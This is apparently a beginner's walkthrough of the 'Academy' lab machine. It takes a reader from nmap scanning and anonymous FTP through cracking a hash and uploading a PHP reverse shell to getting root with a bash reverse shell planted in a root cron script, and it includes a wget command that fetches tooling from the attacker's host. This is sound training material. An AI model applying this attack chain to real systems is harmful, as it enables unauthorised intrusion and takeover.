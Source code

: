 This machine is one of the first machines i got root access to. It was really fun and this is going to be like a walkthrough to it.
Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will rnot really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 
![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)


We start by doing the normal, scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: <nmap -A -p- IP>
![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21, 22 and 80. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.
We go ahead to check out what ftp has for us. For that we use <ftp IP> and then we are able to list what files are there. FTP simply means file transfer protocol, it is used to download, upload, and transfer files from one location to another on the internet and between systems.
![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)


Here we downloaded the note.txt file using <get file-name> and then I viewed it on my attacker's machine. From the note.txt, we found out Grimmie was a user and dev who uses same passwords everwhere hehe😂 and we also found a SQL database where we saw the student RegNo, passwords and all other things that can be used to login. It was also from 2020 and the message was from jdelta.

After that we check out the next port that might matter to us. SSH is not it so we move down to port 80.
Just paste the IP on your browser and check round for any useful information. After loading the website, there was no much information. we only knew what technology was behind it.
![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)
Here we proceed to using a directory buster. I will be using gobuster in this instance. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.
![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? Because I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that and i got an error ![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)
 so i looked at the password again and realized it was not a password but a hash. Most students used weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.
![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

Nothing was looking interesting here, just the 'My Profile' page. I uploaded a photo there and it went successful and then i tried to upload a file that was neither .jpg or .png format and it went. I smiled and said to myself, I am in that mode already with one kind of evil smile on my face. The plan here was to create a reverse shell and see if we can gain access. I simply go to google and search for php reverse shell. It bring out one pentestmonkey githb, i moved in there and saw a sweet code i can work with. i copied the entire code and used nano to create a .php file. I named it shell.php. SYNTAX: <nano <file_name>.php>. Read the code and change what needs to be changed, upload and listen. Once again guys.... I'm in!!!. I tried running <sudo -l> to check if i gain root access, it gave an error. So then i realised i needed to use an automation tool i learnt about on https://tryhackme.com/r/room/linprivesc. Simply go to google and search 'linpeas'. I found the script, ![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)
i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. since I am transferrig from my machine to the target's mahine, i use <wget http://MY_IP/file> ![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). Now is time to change the permission to make it executable and then run!!!. 
![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)
We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇
![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 
![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)
Now it's looking like it's a dead end after trying sudo -l. I checked the content of backupsh and realised it supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.
![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From here, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 
![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.
![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678. ![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).
We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)
Just find the flag and at it out. 
![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)


